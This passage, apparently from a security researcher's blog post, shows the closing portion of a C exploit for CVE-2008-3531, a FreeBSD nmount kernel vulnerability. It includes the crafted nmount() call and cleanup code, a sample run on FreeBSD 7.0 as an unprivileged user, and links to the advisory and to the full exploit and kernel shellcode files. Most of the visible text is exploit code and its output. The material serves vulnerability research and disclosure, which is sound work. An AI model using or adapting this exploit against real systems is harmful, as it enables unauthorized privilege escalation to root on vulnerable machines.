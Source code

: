     <span style="color: #000066;">printf</span><span style="color: #009900;">&#40;</span><span style="color: #ff0000;">"[*] calling nmount()<span style="color: #000099; font-weight: bold;">\n</span>"</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
&nbsp;
    <span style="color: #b1b100;">if</span><span style="color: #009900;">&#40;</span>nmount<span style="color: #009900;">&#40;</span>iov<span style="color: #339933;">,</span> <span style="color: #0000dd;">6</span><span style="color: #339933;">,</span> <span style="color: #0000dd;"></span><span style="color: #009900;">&#41;</span> <span style="color: #339933;">&lt;</span> <span style="color: #0000dd;"></span><span style="color: #009900;">&#41;</span>
    <span style="color: #009900;">&#123;</span>
        <span style="color: #000066;">perror</span><span style="color: #009900;">&#40;</span><span style="color: #ff0000;">"nmount"</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
        rmdir<span style="color: #009900;">&#40;</span>DIRPATH<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
        <span style="color: #000066;">exit</span><span style="color: #009900;">&#40;</span>EXIT_FAILURE<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    <span style="color: #009900;">&#125;</span>
&nbsp;
    <span style="color: #000066;">printf</span><span style="color: #009900;">&#40;</span><span style="color: #ff0000;">"[*] unmounting and deleting %s<span style="color: #000099; font-weight: bold;">\n</span>"</span><span style="color: #339933;">,</span> DIRPATH<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    unmount<span style="color: #009900;">&#40;</span>DIRPATH<span style="color: #339933;">,</span> <span style="color: #0000dd;"></span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    rmdir<span style="color: #009900;">&#40;</span>DIRPATH<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
&nbsp;
    <span style="color: #b1b100;">return</span> EXIT_SUCCESS<span style="color: #339933;">;</span>
<span style="color: #009900;">&#125;</span></pre>
      </td>
    </tr>
  </table>
</div>

Finally, a sample run of the exploit:

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="bash" style="font-family:monospace;"><span style="color: #7a0874; font-weight: bold;">&#91;</span>argp<span style="color: #000000; font-weight: bold;">@</span>leon ~<span style="color: #7a0874; font-weight: bold;">&#93;</span>$ <span style="color: #c20cb9; font-weight: bold;">uname</span> <span style="color: #660033;">-rsi</span>
FreeBSD <span style="color: #000000;">7.0</span>-RELEASE GENERIC
<span style="color: #7a0874; font-weight: bold;">&#91;</span>argp<span style="color: #000000; font-weight: bold;">@</span>leon ~<span style="color: #7a0874; font-weight: bold;">&#93;</span>$ sysctl vfs.usermount
vfs.usermount: <span style="color: #000000;">1</span>
<span style="color: #7a0874; font-weight: bold;">&#91;</span>argp<span style="color: #000000; font-weight: bold;">@</span>leon ~<span style="color: #7a0874; font-weight: bold;">&#93;</span>$ <span style="color: #c20cb9; font-weight: bold;">id</span>
<span style="color: #007800;">uid</span>=<span style="color: #000000;">1001</span><span style="color: #7a0874; font-weight: bold;">&#40;</span>argp<span style="color: #7a0874; font-weight: bold;">&#41;</span> <span style="color: #007800;">gid</span>=<span style="color: #000000;">1001</span><span style="color: #7a0874; font-weight: bold;">&#40;</span>argp<span style="color: #7a0874; font-weight: bold;">&#41;</span> <span style="color: #007800;">groups</span>=<span style="color: #000000;">1001</span><span style="color: #7a0874; font-weight: bold;">&#40;</span>argp<span style="color: #7a0874; font-weight: bold;">&#41;</span>

 [1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-3531
 [2]: http://security.freebsd.org/advisories/FreeBSD-SA-08:08.nmount.asc
 [3]: http://www.freebsd.org/cgi/man.cgi?query=nmount&#038;apropos=0&#038;sektion=2&#038;manpath=FreeBSD+7.0-RELEASE&#038;format=html
 [4]: http://www.freebsd.org/cgi/man.cgi?query=sysctl&#038;sektion=8&#038;apropos=0&#038;manpath=FreeBSD+7.0-RELEASE
 [5]: http://www.freebsd.org/cgi/man.cgi?query=mmap&#038;apropos=0&#038;sektion=2&#038;manpath=FreeBSD+7.0-RELEASE&#038;format=html
 [6]: http://www.freebsd.org/cgi/man.cgi?query=sysctl&#038;sektion=3&#038;apropos=0&#038;manpath=FreeBSD+7.0-RELEASE
 [7]: http://census-labs.com/research/#kernexp
 [8]: http://www.blackhat.com/presentations/bh-usa-03/bh-us-03-cesare.pdf
 [9]: http://census-labs.com/media/cve-2008-3531-kernelcode.s
 [10]: http://census-labs.com/media/cve-2008-3531.c